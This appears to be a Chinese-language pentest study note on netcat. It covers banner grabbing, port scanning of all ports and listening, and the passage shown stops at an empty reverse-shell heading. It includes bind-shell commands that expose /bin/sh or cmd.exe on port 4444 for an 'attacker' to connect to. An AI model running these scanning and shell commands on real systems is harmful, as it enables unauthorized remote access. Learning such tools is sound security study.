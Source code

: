

### 3.3.2 netcat

Netcat 是一款简单的Unix工具，使用UDP和TCP协议。 它是一个可靠的容易被其他程序所启用的后台操作工具，同时它也被用作网络的测试工具或黑客工具。 使用它你可以轻易的建立任何连接。内建有很多实用的工具。介绍帖子：https://blog.csdn.net/fageweiketang/article/details/82833193

nc 的一些常用选项：

![image-20210303211229925](E:\1.学习文档\4-Windows\image\image-20210303211229925.png)

-l -v -p -z  -n

1.Banner信息抓取

nc -nv ip port 探测端口开放及版本。

![image-20210303211700009](E:\1.学习文档\4-Windows\image\image-20210303211700009.png)

2.连接远程主机

nc -nvv ip port



3.端口扫描

nc -v ip port

![image-20210303222148880](E:\1.学习文档\4-Windows\image\image-20210303222148880.png)

nc -v -z ip 1-65535

![image-20210303211425783](E:\1.学习文档\4-Windows\image\image-20210303211425783.png)

4.端口监听

nc -l -p port 监听会谈到本端口的信息。

5. 获取shell

   先监听，再去做反弹。。。。

5.1 正向shell 

攻击者主动连接到受害主机。外对“内”可访问时

nc -lvp 4444 -e /bin/sh

nc -lvp 4444 -e ‪C:\Windows\system32\cmd.exe

![image-20210303223730756](E:\1.学习文档\4-Windows\image\image-20210303223730756.png)

nc server_ip 4444

![image-20210303223837898](E:\1.学习文档\4-Windows\image\image-20210303223837898.png)

![image-20210303223806078](E:\1.学习文档\4-Windows\image\image-20210303223806078.png)

5.2 反向shell

